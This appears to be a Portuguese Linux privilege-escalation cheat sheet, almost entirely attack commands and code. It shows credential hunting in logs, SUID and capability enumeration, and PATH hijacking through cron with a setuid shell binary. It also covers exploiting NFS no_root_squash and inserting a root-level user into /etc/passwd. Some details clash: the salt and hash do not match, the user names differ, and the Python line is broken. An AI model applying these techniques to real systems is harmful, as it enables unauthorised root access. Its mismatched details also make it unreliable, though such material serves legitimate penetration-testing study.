 ### Identificação de permissões sudo  
`sudo -l`
### Buscando senhas no log:  
`grep -Ri password /var/log 2>/dev/null`  
### Identificação de permissões SUID  
`find / -perm -u=s -type f 2>/dev/null`  
### Identificação de permissões Capabilities  
`getcap -r / 2>/dev/null`  
### Identificação de scripts programados (Cron Jobs)  
`cat /etc/crontab`  
Caso um script não possua o caminho absoluto definido no `/etc/crontab`, o cron irá buscar o arquivo nos diretórios definidos no PATH.  
Lembre-se de dar a permissão de execução ao script.  
### Manipulando a variável PATH  
Identificando diretórios com permissão de gravação:  
`find / -writable 2>/dev/null`  
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`  
Adicionando a pasta `/tmp` ao PATH:  
`export PATH=/tmp:$PATH`  
Criando um binário com o script que irá executar um comando:  
```
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("cmd");
}
```
Para compilar o código acima utilize o compilador GCC:  
`gcc binario.c -o binario -w`  
Altere as permissões do binário para SUID:  
`chmod u+s binario`  
Agora criamos o comando que será executado:  
`echo "/bin/bash" > cmd`  
Alteramos a permissão do comando criado:  
`chmod 777 cmd`  
E executamos o binário com o script que irá chamar o comando.  
Lembre-se de que os arquivos devem estar em um local com permissão de escrita, além do diretório estar declarado na variável PATH.  
### Explorando serviços de compartilhamento de arquivos (NFS)  
Na máquina alvo, verifique se existe diretórios compartilhados com a permissão no_root_squash:  
`cat /etc/exports`  
Na máquina atacante, verifique quais diretórios estão permitidos realizar a montagem:  
`showmount -e IP`  
Crie uma pasta na máquina atacante e faça a montagem do diretório remoto no diretório criado:  
`sudo mount -o rw IP:/shared/remote/folder /local/folder`  
Na pasta local, crie um script que irá executar a shell:  
```
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```
Compile o script utilizando o GCC:  
`sudo gcc root.c -o root -static`  
Altere as permissões do binário criado para SUID:  
`sudo chmod +s root`  
Execute na máquina remota para escalar privilégio.  

### Adicionando um usuário com privilégio root  

Criar o hash da senha que será utilizada:  
`openssl passwd -1 -salt HACK senha123`  

Adicione as informações do usuário no arquivo `/etc/passwd`:  
`hacker3:\$1\$lord\$jZwvvuLH/snkFA6S/AJA6.:0:0:root:/root:/bin/bash`  

Agora é só trocar para o usuário criado:  
`su hacker`  

`python -c 'import crypt; print(crypt.crypt(senha123, "$6$lord"))'`  
`

`\$1\$lord\$jZwvvuLH\/snkFA6S\/AJA6\.`  